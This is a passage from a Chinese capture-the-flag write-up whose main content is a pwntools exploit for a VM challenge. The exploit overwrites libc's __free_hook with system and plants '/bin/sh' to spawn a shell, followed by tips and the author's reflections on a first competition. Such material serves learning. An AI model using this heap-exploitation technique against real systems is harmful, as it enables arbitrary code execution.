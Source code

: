 ```python
    ADD, 
    # GLOAD low 4 bytes of (free_hook - 8) into (vm.stack), high 4 bytes of libc is the same!
    GLOAD, 0x86,
    PUSH, libc.sym['__free_hook'] - libc.sym['__libc_start_main'] - 243 - 8,
    ADD,                        
    # change globals -> (free_hook - 8), when vm_free, first free(globals)
    STORE, FREE_HOOK_8_LOW,     
    STORE, SYSTEM_ADDR_LOW,     
    STORE, SYSTEM_ADDR_HIGH,    
    POP, # nglobals
    POP,
    POP,
    LOAD, FREE_HOOK_8_LOW,
    LOAD, SYSTEM_ADDR_HIGH,		
    PUSH, 0, # sp = 0
    # get system -> vm.stack
    LOAD, SYSTEM_ADDR_HIGH,
    LOAD, SYSTEM_ADDR_LOW,
    # change free_hook to system
    GSTORE, 2, # globals[2] = free_hook - 8 + 8 = free_hook
    GSTORE, 3, # globals = free_hook + 4
    # write /bin/sh\x00 to vm.stack
    PUSH, 0x6e69622f,
    PUSH, 0x68732f,
    # write /bin/sh\x00 to free_hook-8
    GSTORE, 1, # system(*(free_hook-8))
    GSTORE, 0, # same as system('/bin/sh')
    # jump to vm_free
    HALT
]

payload = formcode(code)
payload = payload.ljust(512, b"\x00")
io.send(payload)

io.interactive()
```

### Tips

1. 要用push 0和pop操作来平衡sp的值
2. exp中对code的处理、使用宏的思路来自[这篇WP](https://ctftime.org/writeup/32107)，我认为十分精彩



## Thoughts

1. 五一前因为个人原因经历了两周多的玉玉期，期间内心痛苦、时常自卑，学习也当然停滞。开赛后始终觉得自己没什么希望，毕竟学习进度仅仅到栈溢出，但摆烂几天后居然做出了第一题，随后上瘾通宵两晚，善用互联网（，最终达到了平均水平，这其实是很出乎我意料的。这也是我第一次打比赛，学到了很多，觉得比赛比做题好太多，感觉心中有了一些激情（虽然不知道能坚持多久

2.  第一次打比赛，当然也是第一次写wp，所以写得很认真，并且斟酌了用语、认真查错，语气也比较正式。
